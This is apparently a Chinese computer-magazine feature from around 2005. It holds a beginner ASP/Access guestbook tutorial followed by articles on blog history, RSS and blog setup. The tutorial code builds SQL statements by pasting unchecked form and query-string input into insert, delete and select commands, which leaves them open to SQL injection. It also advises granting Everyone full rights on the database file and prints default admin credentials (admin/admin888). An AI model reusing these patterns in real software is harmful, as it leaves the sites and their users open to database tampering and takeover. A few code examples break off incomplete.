首先所有的服务器端代码需要被`<% %>`包围；其次使用的vbscript不区分大小写，Request和request是一样的，函数可以不使用括号包围，Response.Write "hello"和Response.Write("hello")是一样的，变量可以不申明直接使用，虽然有这么多包容性，但是我们还是应该有一定的编程规范，毕竟代码不仅仅是用来运行更多的是用来读的。把上面的程序保存为reg.asp，然后把表单代码保存为reg.htm，去运行reg.htm，随便填写一些信息，点击提交按钮可以发现浏览器返回了刚才填写的结果。
这部分的源代码在代码包的example1中。

### 三、成功学会数据库的访问和读取

很显然，大部分程序需要和数据库交互，从数据库读取信息返回给客户端查看，把客户端的操作转化为数据库的操作（添加删除修改记录）。这种与数据库的交互我们大致归为查看、添加、删除、修改4种操作，这节先来学会数据库的访问和读取。
数据库就是存放数据的地方，多个表作为一个数据库，每一个表是一个二维空间，对于学生表，学号、姓名、成绩都是一些字段，每一个学生的记录就是记录了。我们通常在建立了表和字段以后对其中的记录进行添加删除修改的操作。常用的数据库有Access、sqlserver、oracle、mysql、db2等很多，为了简单我们使用桌面型数据库Access作为例子。



## 1. 建立一个表

这里建立几个留言簿使用的表：
在 Office 中有 Access，如果没有安装就重新添加一下 Access 组件。

第一步：打开 Access，并建立一个新的数据文件，比如叫 example2.mdb。

第二步：使用设计器创建新的表。
前面说到了，一个数据库可以有一个以上的表，填写字段名，选择字段类型，字段大小的意思就是这个字段可以容纳的字符数，默认值的意思就是当我们插入记录的时候没有指定这个字段的值的时候可以自动使用默认值，一般必填字段和允许字段空分别设置为否和是，以免当字段内容为空的时候出现错误。

第三步：建立必要的字段。在最后的 time 字段我们用来保存留言的时间，我们可以直接设定默认值为 =now()，这样就可以使用当前时间作为默认了。
所有的字段都建立以后，关闭这个窗口，系统会出现如图 2 的提示，选择是，主键是记录的标识，为了以后简单，大家可以把编号改为 ID，还有尽量不要用中文表示字段名字。



第四步：最后可以把这个表保存为 guestbook，然后双击这个表查看表中的记录，当然也可以添加几条测试的记录或者去修改记录。

## 2. 连接数据库

```
<%
set conn=server.createobject("adodb.connection")
conn.open "driver={microsoft Access driver (*.mdb)};dbq="&server.mappath("example2.mdb")
%>
```

第一句定义了一个 adodb 数据库连接组件，第二句连接了数据库，大家只要修改后面的数据库名字就可以了，server.mappath() 这个方法可以把数据库的相对路径转化为绝对路径。

## 3. 读取数据

```
<%
exec="select * from guestbook"
set rs=server.createobject("adodb.recordset")
rs.open exec,conn,1,1
%>
```

这三句加在前面两句的后面，第一句：设置查询数据库的命令，select 后面加的是字段，如果都要查询的话就用 *，from 后面再加上表的名字，我们前面建立的是 guestbook 表。第二句：定义一个记录集组件，所有搜索到的记录都放在这里面，第三句是打开这个记录集，exec 就是前面定义的查询命令，conn 就是前面定义的数据库连接组件，后面参数 "1，1"，这是读取，后面讲到修改记录就把参数设置为 "1，3"，好了接下来我们读取记录

```
<table width="100%" border="0" cellspacing="0" cellpadding="0">
<%do while not rs.eof%>
<tr>
<td><%=rs("name")%></td>
<td><%=rs("tel")%></td>
<td><%=rs("message")%></td>
<td><%=rs("time")%></td>
</tr>
<%
rs.movenext
loop
rs.close
conn.close
%>
```

</table>

在一个表格中，用 4 列分别显示了上次建立的表里面的四个字段，用 do 循环，not rs.eof 的意思是条件为没有读到记录集的最后，rs.movenext 的意思是显示完一条转到下面一条记录，<%%> 就等于 <%response.write%> 用于在 html 代码里面插入 ASP 代码，主要用于显示变量。在上面的代码中我们对 <tr> 进行了循环输出，<tr> 是表格的一行。
这部分的源代码在代码包的 example2 中。

### Just do it

大家可以尝试用 Response.Write(server.mappath("example3.mdb"))语句体验一下 server.mappath() 的效果。

## 四、成功学习数据的添加和删除

数据库的基本操作无非是：查询、写入、删除、修改记录，这里先来学习写入和删除记录。
先建立一个表单：用来填写留言信息：

```
<form name="form1" method="post" action="example3.asp">
name <input type="text" name="name"><br>
tel <input type="text" name="tel"><br>
message <input type="text" name="message" value=""><br>
<input type="submit" name="Submit" value="提交 ">
<input type="reset" name="Submit2" value="重置 ">
</form>
```

下面重点是看看 ASP 代码中怎么进行插入记录的操作：

```
<%
set conn=server.createobject("adodb.connection")
conn.open "driver={microsoft Access driver (*.mdb)};dbq="&server.mappath("example.mdb")
name=request.form("name")
tel=request.form("tel")
message=request.form("message")
exec="insert into guestbook(name,tel,message)values('"+name+"','"+tel+"','"+message+"')"
conn.execute exec
conn.close
set conn=nothing
response.write "记录添加成功!"
%>
```

前两句是打开数据库的操作，只有先打开数据库才能进行任何操作。接下来三句就是进行变量的赋值，接受表单传送过来的数据。前面说过 exec 变量里面存放的是执行的命令，添加记录的语句比较繁，大家要仔细看。insert into 后面加的是表的名字，后面的括号里面是需要添加的字段，不用添加的或者字段的内容就是默认值的可以省略。注意，这里的变量一定要和 Access 里面的字段名对应，否则就会出错。values 后面加的是传送过来的变量。exec 是一个字符串，"insert into guestbook(name,tel,message)values('"是第一段，在 ASP 里面不能嵌双引号，所以可以用 ' 代替双引号，放在双引号里面，连接两个变量用 + 或者 & 所以 '","又是一段，中间夹了一个 name 就是表单传来的变量，这样就可以在这个变量外面加两个 '' ，表示是字符串了，后面的 tel 是数字型变量所以不需要外面包围 ' ' ，大家慢慢分析这句话，如果用表单传来的数据代替变量名字的话这句话为（假设 name="aaa",tel=111,message="bbb"）；"insert into guestbook(name,tel,message)values('aaa',111,'bbb')"。
接下来的 conn.execute 就是执行这个 exec 命令，最后别忘记把打开的数据库关闭，把定义的组件设置为空，这样可以返回资源。

### Just do it

上一步读取数据的例子为了简单，我们没有关闭，大家可以尝试补充上去：

```
rs.close
set rs=nothing
conn.close
set conn=nothing
```

这里的次序不可以颠倒，只有先关闭了对象才能把对象清空（example3）

下面看看怎么删除数据，其实数据库的操作都是使用 SQL 语句来进行的，所以掌握好 SQL 语句非常重要，对于删除我们可以这么写 exec="delete * from guestbook where id="&request.form("id")，这句话完成了删除记录的操作，不过锁定记录用了记录唯一的表示 id ，我们前面建立数据库的时候用的是系统给我们的主键，名字是编号，由于是中文的名字不是很方便，大家可以修改为 id，不修改的话就是

```
exec="delete * from guestbook where 编号 ="&request.form("id")
```

由于这里的 id 是数字型的我们不需要引号包围它，如果主键是字符型的要这么写：
exec="delete * from guestbook where 编号 = '"&request.form("id")&"'"

下面我们看完整的代码：一个表单传给 ASP 文件一个 ID，然后这个 ASP 文件就删除了这个 ID。

```
<form name="form1" method="post" action="example.asp">
delete:
<input type="text" name="id">
<input type="submit" name="Submit" value="提交 ">
</form>
example.asp:
<%
set conn=server.createobject("adodb.connection")
conn.open "driver={microsoft Access driver (*.mdb)};dbq="&server.mappath("example3.mdb")
exec="delete * from guestbook where 编号 ="&request.form("id")
conn.execute exec
%>
```

Conn.execute 这个方法执行了一句 sql 语句，在这里我们执行了一个删除的操作。
这部分的源代码在代码包的 example3、4 中。

## 五、成功学习数据搜索

我们有这样一个程序：

```
<%
set conn=server.createobject("adodb.connection")
conn.open "driver={microsoft Access driver (*.mdb)};dbq="&server.mappath("example.mdb")
exec="select * from guestbook"
set rs=server.createobject("adodb.recordset")
rs.open exec,conn,1,1
%>
```

我们查询的是所有的记录，但是我们要修改、删除记录的时候不可能是所有记录，所有我们要学习检索合适的记录。先看一条语句：

```
a="张三"
b=111
exec="select * from guestbook where name='"+a+"'and tel="+b
```

where 后面加上的是条件，与是 and，或 是 or，我想 =,<=,>=,<,> 的含义大家都知道吧。这句话的意思就是搜索 name 是张三的，并且电话是 111 的记录。如果要搜索所有姓王的人可以这么写，a="王" exec="select * from guestbook where name like '"+a+"%'"
这里的 a、b，是直接赋值的，大家可以让 a,b 是表单提交过来的变量，这样就可以做一个搜索了。

下面大家看看这个代码，理解一下：

## 六、成功学习数据的修改

先来看看代码：

```
<%
set conn=server.createobject("adodb.connection")
conn.open "driver={microsoft Access driver (*.mdb)};dbq="&server.mappath("test.mdb") //为了简单起见，这不是以前的一个数据库，里面就aa、bb两个文本字段和主键字段id
exec="select * from test where id="&request.querystring("id")
set rs=server.createobject("adodb.recordset")
rs.open exec,conn
%>
<form name="form1" method="post" action="modifysave.asp">
<table width="748" border="0" cellspacing="0" cellpadding="0">
<tr>
<td>aa</td>
<td>bb</td>
</tr>
<tr>
<td>
```

这部分的源代码在代码包的example5中。

## 七、成功学习会话

### Just do it

到这一步我们为你提供的例程和源码相信你已经能读懂，知道每一句用途，这样你就已经可以基本读懂ASP代码的简单语句了，尝试下载一些网站全站代码，看看你能看懂多少，并尝试做一些小的修改，不懂的立刻找资料来看，相信你会进步得相当快速。

许多程序都会用到检测是不是用户已经登录这个步骤。这就用到了SESSION，下面看一个代码来说明。

```
<%
session("islogin")="yes"
%>
这句话意思就是在session里面定义一个
```

islogin 字符串变量，值为"yes"，直接可以赋值，不需要声明。如果做管理员登录系统，首先是一段检测是不是管理员。
if 判定登录密码正确 then
    session("isadmin")="yes"
else
    session("isadmin")="no"
end if

在每一个需要管理员才能看的页面最前面加上

```
<%
if not session("isadmin")="yes" then
    response.redirect "login.htm"
end if
%>
```

这样一般用户就无法打开这个页面。response.redirect，它是转向的意思，后面的"login.htm"就是转向的文件。这样没有登录的管理员是无法看到后面的内容的。
（ example7 ）

所有我们提到的语法，因为篇幅不能做很详细的介绍，由于学习ASP还涉及VBScript、HTML、SQL等技术，所以大家还需要系统的学一下这些相关技术。HTML语言、SQL语言也同样适用于其他web开发，因此需要熟练掌握。

大家可能在操作中会遇到一些问题，下面再提示一些比较常见的问题。

- Q: 为什么更新记录的时候会出现”数据库对象为只读”？
A: 这通常是权限问题，右击Access文件，选择“属性→安全→添加Everyone账号→勾选择所有的权限→确定”即可。

- Q: 提示SQL语句出错了，怎么办？
A: 通常拼接很长的SQL语句容易出错，而这些错误往往比较难察觉（可能多了少了引号，也可能字段名有错误），在调试的时候可以用

```
response.write exec
response.end
```

输出sql语句来检查。

这部分的源代码在代码包的example7中。

## 附篇：Dreamweaver 来帮忙，不会写代码也能编程序

看了那么多ASP编程知识，是不是觉得实在是太难了，能不能不写代码编程序呢？答案当然是不能。但让程序自动帮我们写代码的方法倒是很多，使用Dreamweaver就是一个简单快捷地编写ASP程序的方法，因为你只用操作Dreamweaver，代码的编写工作它会自动帮你完成。

下面使用Dreamweaver 2004来做一个简单的留言板程序。

第一步：在IIS中将网站的主目录设置为你所要存放留言板ASP文件和数据库的目录，同时将默认文档设置为“index.asp”文件（见图3）。



第二步: 使用 Access 按照如图所示来设计一个简单的 Access 数据库。需要注意的是，设计数据库时，要将 “Date”（日期）项目的默认值设置为 “Now()”（获取当前时间），这样在留言的时候数据库中就会自动保存留言的时间了。我们创建数据库的目的是为了保存留言板中的数据。

第三步: 运行 Dreamweaver 2004，通过菜单依次选择“站点→管理站点→新建”建立一个新的站点 “guestbook”，跟着向导一步一步进行操作。

第四步: 下面要开始正式制作留言板的 ASP 网页了，首先需要设计一个页面让它能够显示留言。在 Dreamweaver 2004 中选择“新建→动态页→ASP VBScript”新建一个 ASP 网页，将网页的标题更改为“留言板”。

第五步: 按照如图 4 所示设计网页，将“[留言]”的链接设置为：“insert.asp”。



第六步: 连接数据库。按 Ctrl+F9 键打开“服务器行为”设置面板，注意其中 4 项说明的前 3 项前面是否有对号，如果有则表示之前的站点设置正确，可以进行下一步的操作（见图 5）。



第七步: 点击“服务器行为”面板上的“+”按钮，在弹出的菜单中选择“记录集（查询）”，在设置窗口中点击“定义”按钮，弹出窗口点击“新建”按钮，选择“数据源名称 DSN”。

点击“数据源名称（DSN）”旁边的“定义”按钮设置 ODBC 连接。在 ODBC 连接设置窗口中，选择“系统 DSN”选项卡，点击“添加”按钮，选择“Microsoft Access Driver (*.mdb)”在弹出的窗口中填写数据源名称为：“guestbook”，点击“选择”按钮选择数据库。

点击“测试”按钮测试是否连接数据库成功。如果连接成功就可以进行下一步的操作了。

### 你知道吗？

ODBC（开放式数据库连接）是微软引进的一种数据库接口技术，引进这种技术的一个主要原因是，以非语言专用的方式，提供给程序员一种访问数据库内容的简单方法，它是程序与数据库之间的桥梁。只要有 ODBC 驱动程序，无论你是使用 Access、SQL Server 还是 Oracle 数据库，都能方便地编写程序来访问。

对于 ASP 动态网页编程，使用 ODBC 可以使你在代码中不涉及数据库文件的位置，提高了安全性。

第八步: 按照如图所示回到记录集设置窗口进行设置，这时点击设置按钮可以看到 Access 表中的数据，表示数据库连接成功。

第九步: 在“应用程序”面板中选中“绑定”选项卡，可以看到刚才设置好的记录集的内容。

第十步: 用鼠标拖曳相应的记录集选项到网页中的相应位置。选中网页上“首页”字样，转到“服务器行为选项卡”，点击“+”按钮，选择“记录集分页→移至第一条记录”。用类似的方法设置“上一页”、“下一页”、“尾页”的链接。

第十一步: 下面来设计添加留言的页面“insert.asp”。为了简单，我们将刚才做好的“index.asp”页面直接另存为“insert.asp”文件，下面的工作就是修改这个文件了。按照如图所示将多余的元素删除掉，包括网页上的留言显示单元格和“服务器行为”选项卡上的除“记录集”以外的所有元素。再将 Dreamweaver 2004 的快捷菜单转换到“应用程序”，点击“插入记录”按钮；选择“插入记录表单向导”，按照如图 6 所示进行设置，发表留言以后会自动转到查看留言页面。



这样通过在 Dreamweaver 2004 中的操作，我们已经编写了一个简单的留言板程序，你可以再进行进一步的功能添加，比如说记录留言者的 IP、对每条留言可以分别进行回复等。你也可以通过 Dreamweaver 对这个留言板进行更多的外观设计，让它看起来更漂亮。

### 你知道吗？

ASP.NET —— ASP 的继承和发扬
ASP 从推出到应用普及充分显示了它技术上有着其他技术不能超越的优点，比如上手容易，开发简单，应用程序多等，但是渐渐的其不足却日益明显地体现出来: ASP 仅支持如 VBScript 或 JavaScript 等脚本语言，支持语言不够丰富；ASP 仅提供给各对象给程序人员使用，功能较为有限；ASP 的安全性一直备受关注，很多代码除非是十分有经验的程序员来编写，否则默认的漏洞很多；ASP 解释执行程序的方式效率不高，重复占用服务器资源。很多的缺点在计算机技术的发展中显得越来越严重，于是 ASP.NET 应运而生。

ASP.NET 是微软 .NET 结构的一部分，可以看作是 ASP 的下一个版本，扩展名为 “.aspx” 可以看出来它与 ASP 的关系。ASP.NET 的语法在很大程度上与 ASP 兼容，同时它还提供一种新的编程模型和结构，可生成伸缩性和稳定性更好的应用程序，并提供更好的安全保护。ASP.NET 可以用任何与 .NET 兼容的语言（包括 Visual Basic .NET、C# 和 Jscript .NET）创作应用程序。另外，任何 ASP.NET 应用程序都可以使用整个 .NET Framework。开发人员可以方便地获得这些技术的优点，其中包括托管的公共语言运行库环境、类型安全、继承等等。从一定程度上说，.NET 的设计思想很多地方很像 Java 技术，可以跨平台使用。

ASP.NET 的推出也有 2 年了，而现在 ASP.NET 2.0 也将正式推出，显然作为微软抢占 WEB 应用领域的利器，ASP.NET 有着强大的功能，与之配套的 VS.NET 开发工具也彻底解放了程序员大量的重复劳动。不过 ASP.net 相对于 ASP 的难度还是要大许多，掌握 ASP 对于你一段时间内的技术将很有帮助，也为你以后走向 Web 开发之路敞开了大门。

如果你现在进入动态网页编程的大门，建议你学习了 ASP 的基础知识以后直接开始学习 ASP.NET 技术，相信你会被 ASP.NET 的强大所吸引。

## 编后：

本期特别话题只是让大家初步接触了一下 Web 开发，即使是 ASP 的内容也远不止这些，大家可能已经看过一些 ASP 的书籍，说了很多 ASP 的几种对象，如果一开始接触这些可能会比较难理解，对于初学者来说还是应该先尝试做出一些简单的 ASP 程序，比如留言簿，能够让你基本了解一些开发的流程，在这个时候再去系统地学习 ASP 的几大对象、ADO 的几大对象、HTML、JavaScript 就更容易理解了。学习了 ASP 基本就应该理解了一些常用的 HTML 代码、基本的交互过程，特别是能写出常用的 SQL 语句、学会了一些常用 DBMS 的使用，这个时候去学习 ASP.NET 或其他的开发技术可能会觉得不怎么困难了。在学习的过程中对于一门技术去买一本相关的书足够了，更多的是一个发现问题解决问题的过程，可以去比较大的一些技术论坛比如 CSDN 的技术社区等去提问，希望大家能在学习道路上一帆风顺。

> 作为内容的开放源代码，博客将使互联网真正完成网络社会化；
作为媒体的开放源代码，博客将使媒体业发生历史性的转折；
作为知识的开放源代码，博客将使商业世界带来观念和模式的变革；
作为思想的开放源代码，博客将使我们未来的世界从此不同；
……
——《博客—e 时代的盗火者》

## 博客的进化论——从博客到维基、播客

在十年前，一个人要想成名，需要最少两年的时间，要想大红大紫最少需要五年的时间。而在五年前，一个人若想成名，需要最少 6 个月的时间，要想大红大紫最少需要 1 年的时间。在现在，一个人若想成名，1 个月就足够了，要想大红大紫，只需要 3 个月…… 这是为什么，答案只有两个字—— 博客。

### 你知道吗？

开放源代码软件: 简单地说，所有公布软件源代码的程序都可以称为开放源代码软件。开放源代码不仅仅只是软件源代码而已，它们也有关自由、分享和社群精神及创作、美和黑客所谓的“有趣”。
——《维基百科全书》

## 博客——博天下之大 皆出我手

《时代》周刊记者克里斯·泰勒在一篇《我们能从博客中得到什么？》的评论中试图给博客一个历史性的定义，他写道：“电台统治了 30 年代，50 年代是属于电视的，在未来的某个时刻，历史学家们也许会认为 21 世纪是属于博客的。”博客带来了人人写作的时代，只要你有想法都可以通过博客向全世界展现和宣扬，而这样的平台是完全满足“五零”条件（零编辑、零技术、零体制、零成本、零形式）而实现的“零进入壁垒”的网上个人出版方式。只要你有个性的思维和行动，就有必要加入博客行列。方兴东、王俊秀的《博客——e 时代的盗火者》可以让你有加入博客世界极强烈的冲动。我们可以在 http://www.blogchina.com/idea/blogbook_040714 一睹本书的芳容。

## Blog 何方神圣

最早的 Blog 诞生于 1993 年 6 月，是 NCSA 的“What's New Page”网页，里面的内容是罗列 Web 上新兴的网站索引。这个网站整整持续了三年，一直到 1996 年 6 月因为资金的原因才被迫关闭。显然最早的博客是作为网络“过滤器”的作用出现的，那就是挑选一些特别的网站，并作简单介绍。因此有人认为浏览器发明人 Marc Andreessen 开发的 Mosaic 的 What's New 网页就是最早的博客网页。如果跟现在的 Blog 相比，那个网站简陋了很多，但那是 Blog 的最初原型。

那么谁是最早的 Blog 命名人呢？著名科幻作家 William Gibson 在 1996 年预言了职业博客：“用不了多久就会有人为你浏览网直，精选内容，并以此为生，的确存在着这样的需求”。Userland 公司 CEO Dave Winer，在 1997 年开始运作的 Scripting News 开始真正具备了博客的基本重要特性，并且他将这些功能集成到免费软件“Frontier 脚本环境”中。而真正意义上的博客是出现在 1997 年 12 月， JornBarger 运行的 "Robot Wisdom Weblog" 第一次使用 weBLog 这个正式的名字。就算在今天，在博客领域他还是一位非常有影响力的人物。如果你想了解有关他的故事和 Web Log，你可以访问 http://www.robotwisdom.com/weBlogs 获得更详细的资料。

目前最流行的词汇 "Blog"，公认为是 Peter Merholz 在 1999 年才命名的。你可以在 http://www.adaptivepath.com/team/peterme.php 上找到有关 Peter Merholz 的更多资料。

在这一年也是博客开始高速增长的一年，主要是由于 Blogger、Pita、Greymatter、Manila、Diaryland、Big Blog Tool 等众多自动网络出版商发布免费软件的出现，而且它们往往还提供免费的服务器空间。有了这些，一个博客就可以零成本地发布、更新和维护自己的网站，所以博客的数量也成几何级发展。其中 Pyra 公司出品的 Blogger 是最流行和最有影响的工具。当时，他们有着一支网络出版软件的 "梦之队"。但是，这种成功并没有为公司带来利润，甚至由于财务压力，2001 年 1 月公司大裁员，并一口气裁到了极限：只留下一名正式员工 Evan Williams，他是创始人之一。梦之队也分崩离析，另一名创始人是新英格兰人 Meg Hourihan。

那么什么时候博客开始被大家广为关注呢？是 2001 年 9 月 11 日。世贸大楼遭遇恐怖袭击，博客成为重要信息和灾难亲身体验的重要来源。从那时起，博客正式步入主流社会的视野。

## ★何为博客(Blog)

Blog 的全名是 Web Log，后来缩写为 Blog，中文意思是“网络日志”，简称为“网志”。而博客(Blogger)就是写 Blog 的人。从字面上理解是“一种表达个人思想、网络链接、内容，按照时间顺序排列，并且不断更新的出版方式”。简单点说，博客是一类人，他们习惯在网上写日记。可以说现在有越来越多的人喜欢上了博客，导致博客成为目前除了 Email、BBS、QQ（或 MSN）之外第四大网络交流方式。一个 Blog 其实就是一个网页，它通常是由简短且经常更新的帖子所构成，这些张贴的文章都按照年份和日期倒序排列。Blog 的内容和目的的有很大的不同，从对其他网站的超级链接和评论，有关公司、个人构想到日记、照片、诗歌、散文，甚至科幻小说的发表或张贴都有。许多 Blog 是个人心中所想之事情的发表，其他 Blog 则是一群人基于某个特定主题或共同利益领域的集体创作。

Blog 跟论坛看起来相似，其实有本质上的区别。论坛是可以多个人进行沟通和交流，而 Blog 则是以自己为主，别人围绕自己的话题来进行讨论。

Blog 大量采用了 RSS 技术，对读者来说，可以通过 RSS 订阅一个 Blog，及时了解该 Blog 作者最近的更新。对一个博客来说，RSS 可以使自己发布的文章易于被计算机程序理解并摘要。一般来说，大部分的 Blog 系统都支持自动生成 RSS 的功能，在你编辑了 Blog 页面上的信息时自动更新。

## ★何为 RSS

RSS 是一种用于共享新闻和其他 Web 内容的数据交换规范，起源于 Netscape 公司的推“Push”技术，是一种将订户订阅的内容传送给他们的通讯协同格式（Protocol）。RSS 是一个缩写的英文术语，在英文中被认为有几个不同的源头，并被不同的技术团体做不同的解释。它既可以是“Rich Site Summary”（丰富站点摘要），或“RDF Site Summary”（RDF 站点摘要），也可以是“Really Simple Syndication”（真正简易聚合）。RSS 采用 XML 技术，目前广泛用于 Blog、Wiki 和网上新闻频道，世界多数知名新闻社网站都提供 RSS 订阅支持。目前 RSS 规范的主要版本有 0.91、1.0 和 2.0，几乎所有能支持 RSS 的程序都可以浏览不同版本的 RSS。如果你在 Blog 页面和网站上看到 [RSS] 的图片标记，那么就代表了一个 RSS 可供订阅，直接用鼠标点击即可阅读和订阅。你可以使用下列软件来方便快捷地订阅 RSS: 新浪点点通、周博通、博客通、GreatNews、FeedDemon。看看 2005 年第 5 期《玩转 RSS 天下信息随心看》有助您更好地了解 RSS。

## 博客的生存现状

博客秉承了个人网站的自由精神，但是综合了激发创造的新模式，使其更具开放和建设性。要在网络世界体现个人的存在，张扬个人的社会价值，拓展个人的知识视野，建立属于自己的交流沟通的群体。从这个意义上说，博客将会变得越来越普及，越来越为更多的人接受。2002 年 8 月“博客中国”网站的开通，标志着“博客”现象在中国互联网界的显露；11 月 18 日，新闻传播学术网站“紫金网”在改版之际，推出“博客擂台”新栏目。从信息传播的角度看，博客网站、频道的出现对于博客个体而言，意味着将信息采集与发布的通道最大程度地简单化与快捷化。也许你现在还不相信，但是想一想，为什么在互联网的最低潮时期，在个人网站大萧条时刻，在商业网站最凄惨之际，没有一分投资，没有大公司炒作，博客却开始如火如荼？当然，一切还都需要时间。博客刚刚开始发展，尤其是中国，目前仅仅是博客概念普及和萌芽阶段。不能完全依据现在的状况判断未来，而要看 1 年～2 年后，3 年～5 年后的发展步伐。

就目前来说，中国有几十家大的博客基地。大的好处是无所不包，在这其中可以找到自己感兴趣的话题。但大的坏处是鱼龙混杂，有很多不健康的东西混杂在博客当中。博客很缺乏那种区分机制，不能有效及时地把大量好的原创的文章挑选出来。在博客当中获取大的访问量不是难事，只要有媚俗的本事，只要能够厚颜无耻地盗用好的文章，就能够很快地提高访问量。

总体上来说，博客在中国的发展趋势很不错。但是缺少正规的管理，所以有一些不规范的地方出现。而且一些小的博客网站极其不稳定，经常会出现无法访问或者速度过慢的情况，如果能将这些问题都解决，相信会有更多人喜欢上博客。

## Blog 编年史

- 1993 年 6 月:最古老的 Blog 原型—— NCSA 的 "What's New Page" 网页，主要是罗列 Web 上新兴的网站索引，这个页面从 1993 年 6 月开始，一直更新到 1996 年 6 月为止。
- 1994 年 1 月:Justin Hall 开办“Justin's Home Page”(Justin 的个人网页)，不久里面开始收集各种地下秘密的链接，这个重要的个人网站可以算是最早的博客网站之一。
- 1997 年 4 月 1 日:Dave Winer 开始出版 Scripting News。这个网站是由早期的 Davenet 演变而来，最早 1994 年 10 月 7 日。
- 1997 年 12 月:Jorn Barger 最早用 weBlog 这个术语来描述那些有评论和链接，而且持续更新的个人网站。
- 1998 年 5 月 7 日:Peter Merholz 开始出版网站 peterme.com(根据他自己的档案记录)。
- 1998 年 9 月 15 日:Memepool 开始出版，最早的链接是关于“Alex Chiu's Eternal Life Device”。
- 1999 年:Peter Merholz 以缩略词“Blog”来命名博客，成为今天最常用的术语。
- 1999 年 5 月 28 日，Cam 在他个人博客网站 Camworld 中写道:“Dave Winer 开始了最早的博客网站，Camworld 无需隐瞒地表示，模范和追随 Scripting News。”
- 2000 年 4 月 12 日:WeBlogs eGroups 的邮件列表终止，Jorn Barger 和 Dave Winer 的鼻祖之争开始公开化。
- 2000 年 8 月 22 日:Winer 在 FoRK 的邮件列表中贴出帖子，爆发争吵。
- 2000 年 10 月:Jakob Neilsen 表示:“……一般的博客网站都不忍卒读”。
- 2000 年 10 月 14 日:Dave Winer 暗示他的 Scripting News 是最早的博客网站，然后他优雅地将这项荣誉归于他很尊重的前辈—— WWW 的发明人 Tim Berners-Lee。
- 2000 年 11 月:不过 Winer 很快给自己找到了另一项桂冠，Scripting News 将网站的口号变为:互联网上持续运行时间最长的博客网站，开始于 1997 年 4 月 1 日。
- 2000 年 12 月 17 日:UserLand 发布 SuperOpenDirectory，希望成为目录创建的事实工具。
- 2001 年 9 月 11 日:世贸大楼遭遇恐怖袭击，Blog 成为重要信息和灾难亲身体验的重要来源。从此，Blog 正式步入主流社会的视野。
- 2002 年 12 月:多数党领袖洛特的不慎之言被博客网站盯住，而丢掉了乌纱帽。
- 2003 年:围绕新闻报道的传统媒体和互联网上的伊拉克战争也同时开战，美国传统媒体公信力遭遇空前质疑，博客大获全胜。
- 2003 年 6 月《纽约时报》执行主编和总编辑也被博客揭开的真相而下台，引爆了新闻媒体史上最大的丑闻之一。
- 2004 年 4 月:轰动一时的 Gmail 测试者大部分从 Bloggers 中产生。

## 如何快速拥有自己的博客

了解了这么多博客的事情，那么我们也来拥有一个属于自己的博客吧。这里先给大家介绍几个有名的提供博客服务的网站：

- 博客网:http://www.bokee.com
- MSN Spaces:http://spaces.MSN.com
- 博客中国人:http://www.Blogchinese.com

- 第一步:首先在博客中国人的主页上点击“注册博客”按钮，来对博客进行注册。
- 第二步:然后填写一些关于个人的资料，记得密码要填写复杂一些。
- 第三步:然后回到博客中国人的首页，在右上角的地方输入账号和密码就可以登录自己的 Blog。
- 第四步:为了和其他人的 Blog 不一样，我们先要登录“后台管理”，来对自己的 Blog 进行个性化设置。
- 第五步:在 Blog 的“后台管理”中选择“高级管理”中的“设定默认模板”，在这里面选择一个自己喜欢的模板，在选择之前，可以点击右边的“预览”按钮来进行预览。
- 第六步:如果你对网页设计稍有了解的话，还可以点击“修改我的个性模板”按钮，在这里对模板进一步的修改。
- 第七步:其他的还可以在管理中修改自己的资料、添加自己的博客团队、上传文件管理、修改友情链接和加密整个 Blog 站点，这样可以大大增强自己 Blog 的实用性。
- 第八步:当这些都设置完成，我们就可以给 Blog 添加文章了。可以通过前台进行添加，也可以在后台直接添加。先输入 Blog 的标题，这里最好起一些吸引人眼球的标题，然后对博客进行简单的分类。接下来就可以开始输入 Blog 的内容了，当都输入完成，点击“提交日志”按钮就 OK 了。
- 第九步:Blog 建立好之后，下面就把自己的 Blog 网址（在注册的时候系统会告诉你）告诉给朋友和同事，好让别人一起来跟你分享你生活中的快乐和不快乐的事情。

MSN 的博客 Space 也非常受大家的欢迎，换肤功能尤甚，有兴趣的朋友可以参看 2005 年第 6 期《微软 spaces:分享空间 分享生活》和 13 期的《我的 MSN Space 就是比你酷》，相信很快就能上手。

## 从头至尾完整搭建自己的博客网站

如果你有自己的空间，那么完全可以建立一个属于自己的博客网站。这样别人也可以在你那里注册博客和发表文章了。这里给大家介绍的是 OBlog3.0 博客程序（下载地址为:http://oBlog.oioj.net）。

- 第一步:将下载回的 oBlog 解压到指定的目录，然后进行安装。
在本地安装论坛执行本操作前请确认是否拥有安装要求中所需要的环境，在确认你运行论坛的环境后，需要做以下工作:将解压后的文件拷贝到本地 WEB 目录中，IIS 或者 PWS 默认 Web 目录为 C:\inetpub\wwwroot，比如你可以装到 C:\inetpub\wwwroot\oBlog 目录下。然后敲入本地测试网址访问，默认为: http://localhost/ 或者 http://ip/。比如装到 C:\inetpub\wwwroot\oBlog 目录下，那么就可以用 http://localhost/oBlog/index.asp 进行访问。如果在服务器或者虚拟空间进行安装，有服务器的直接操作权限，那么可以使用类似本地安装的方法进行安装。如果是虚拟空间，那么可以使用 FTP 软件将论坛文件上传到网站目录，比如将论坛文件传到空间中的 Blog 目录，那么你就可以使用 http://www.***.com/Blog/index.asp 来进行浏览。安装 Blog 程序的方法可以参考 2005 年 15 期《10 步之内学会 ASP》。
- 第二步:仔细阅读 http://oBlog.oioj.net 网站关于安装的说明，并按步骤进行操作。
- 第三步:后台登录地址为安装目录下的 admin_login.asp，用默认超级管理员（用户名:admin，密码:admin888）登录，进入管理页面对站点的设置。
首先要进行网站信息配置，这里设置网站的一些基本信息。

## 如何在博客中作秀

每个人都能当博客。如果只有自己一个人，Blog 是日记；如果有几十人，Blog 是和朋友们相聚的咖啡屋；如果有几千人访问，Blog 是有力量的媒体；如有上万人访问，Blog 就是商业。如何让更多的人知道自己的 Blog，炒作和作秀是非常关键的。

首先 Blog 名一定要起得与众不同，只有这样才能让更多的人对你的 Blog 感兴趣。其次是文章的质量，就算标题起得再好，里面的内容空洞也是留不住人的。其他的就应该想一些“旁门左道”，如果自己是一个漂亮 MM，可以在 Blog 上贴几张自己的照片，这样也会吸引住很多人的目光。要是自己的朋友多，发动大家(有共同爱好者)一起来做站务和内容。不断地搞活动和炒话题，要是没有话题就炒站长的人格魅力。而且自己的博客每天都要有新东西，让人家每天都有得看，每天都想来。出去到别的论坛去制造事件，别只是吵架，也多帮大家解决点问题。上面的方法要是能坚持下来，相信没有多长时间，就会有很多人知道你的 Blog 了。

## 维护 Blog 的真经

